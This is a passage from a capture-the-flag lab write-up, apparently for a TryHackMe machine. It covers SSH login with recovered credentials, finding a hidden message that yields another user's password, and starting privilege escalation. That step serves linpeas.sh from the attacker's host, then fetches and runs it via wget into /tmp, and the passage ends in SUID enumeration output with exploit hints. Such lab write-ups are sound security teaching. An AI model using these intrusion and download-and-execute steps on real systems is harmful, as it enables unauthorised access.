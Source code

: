 ```

With decrypting it **we get eli's credentials** probably to ssh

log in with ```ssh eli@10.10.100.98``` and input her/his password  
### Privilege Escalation Horizontal
In her /home directory we see basic directories like Pictures, Videos, Music etc. It seems there's no  flag straight up  
I'm going to expect that the user flag is located in some ```user.txt``` file. I'll find it with ```find``` command

```find / -type f -name 'user.txt' 2> /dev/null```  
We find that it's located in ```/home/gwendoline/user.txt``` so it's completely different user!  
I'm stuck again... after one hour and logging again to ssh I've noticed that there's **ssh banner** that is definetely not the default one!

```
1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE

```

We can find it again - using ```find``` But I'll doing it with ```locate``` now

```$ locate s3cr3t ```
```
/usr/games/s3cr3t
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
/var/www/html/sup3r_s3cr3t_fl4g.php
```
So we see that there's even hidden file with message.
Reading it we get **password for the gwendoline user**  
**In his /home directory we see user.txt flag**

### Privilege Escalation Vertical

I'll be transfering linpeas.sh script for privesc by:

```python -m http.server 8080``` where you have linpeas.sh located.  
I want to wget get this file to /tmp directory, so I'll cd into that  
```cd /tmp```

```wget http://<YOUR_THM_IP>:8080/linpeas.sh```  
```chmod +x linpeas.sh```  
```./linpeas.sh```

```
====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root   root       9.9K Feb 24  2014 /usr/lib/eject/dmcrypt-get-device
-rwsr-sr-x 1 root   root       9.9K Apr  1  2014 /usr/bin/X
-rwsr-sr-x 1 daemon daemon      55K Sep 30  2014 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root   root       143K Oct  5  2014 /bin/ntfs-3g  --->  Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)
-rwsr-xr-x 1 root   root        14K Oct 15  2014 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
-rwsr-xr-x 1 root   root        31K Nov  8  2014 /bin/fusermount
-rwsr-xr-x 1 root   root        74K Nov 20  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root   root        44K Nov 20  2014 /usr/bin/chsh
-rwsr-xr-x 1 root   root        53K Nov 20  2014 /usr/bin/chfn  --->  SuSE_9.3/10